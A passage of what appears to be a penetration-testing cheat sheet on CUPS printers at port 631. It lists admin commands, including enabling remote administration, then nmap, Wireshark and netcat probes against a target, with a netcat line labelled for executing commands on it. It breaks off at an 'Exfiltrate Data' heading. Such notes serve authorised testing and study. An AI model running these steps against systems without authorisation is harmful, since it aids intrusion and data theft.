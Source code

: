     ```bash
    lpadmin -p <printer_name> -E -v ipp://<printer_ip>/printers/<printer_name>
    ```
*   **Enable/Disable Printer:** Disables or enables a printer for accepting jobs.

    ```bash
    cupsdisable <printer_name>
    cupsenable <printer_name>
    ```

#### \[\[CUPS]]

*   **Enable Remote Admin:** Enables remote administration of CUPS via IPP, allowing configuration and management of printers and jobs.

    ```bash
    cupsctl --remote-admin
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 631"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 631
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 631
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 631 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 631
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.
